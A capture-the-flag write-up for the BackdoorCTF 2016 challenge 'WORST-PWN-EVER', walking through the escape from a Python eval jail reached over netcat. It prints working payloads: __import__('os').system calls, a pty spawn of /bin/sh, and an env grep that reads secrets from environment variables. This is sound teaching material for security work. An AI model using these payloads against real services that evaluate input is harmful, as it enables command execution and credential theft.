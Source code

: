 Author: michals (Michał Soczewka)

WORST-PWN-EVER
==============

CTF: BackdoorCTF 2016  
Link: https://backdoor.sdslabs.co/challenges/WORST-PWN-EVER  
Author: Ashish Chaudhary  
Points: 100  
Category: pwn, Python


Description
-----------

>   tocttou is an enviornmentalist. But some say he has a vicious motive
>   and he uses nature to hide his dark side. We found a weird shell on
>   his amazon (pun inteded) web services. Can you tell us what is he
>   upto?
>
>   Tip: he might shut down the machine if he notices you - and he will
>   (maybe in 45 seconds).
>
>   Access: nc hack.bckdr.in 9008


## TL;DR
We have been given an Python eval jail over a TCP socket.
The solution is to retreive an environment variable using one
of the classic builtin hacks, for example:
```python
__import__('os').system('env|grep -iE ".*f.*l.*a.*g"')
```

## Solution
After establishing a connection to the given server a prompt is returned.
Let's try some random fuzzing...
First let's see what happens when we press `CTRL+D`
right away:

```
> EOFError: EOF when reading a line
--> WHAT ARE YOU DOING HERE? >-[
```
Let's check if it is a system shell:
```
> echo x
SyntaxError: unexpected EOF while parsing (<string>, line 1)
--> WHAT ARE YOU DOING HERE? >-[
```
No, it's definitely not a system shell. It looks like a Python interpreter.
Let's check this theory then:
```
> 1+1
```
No response, no error - it looks promising.
Let's check then if we can see some Python errors:
```
> 1+'x'*[]
TypeError: can't multiply sequence by non-int of type 'list'
```
Bingo! If it really is an old `eval` jail, then
we could escape using a classic builtin hacks.
Let's check that:
```
> str(__import__('os').system('echo x'))
x
```
 Got it! Let's get a shell and start looking around:
```
> __import__('pty').spawn('/bin/sh')
sh-4.3#
```

After looking through available files for a few minutes
and finding nothing useful, we noticed the task description
contains a clue - the word *environmentalist*
suggests checking environment variables.

```
sh-4.3# env
HOSTNAME=43523caef67d
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_F_L_A_G_='xxxxxxxxxxxxxxx CENSORED xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
PWD=/scripts
SHLVL=3
HOME=/root
_=/usr/bin/env
```
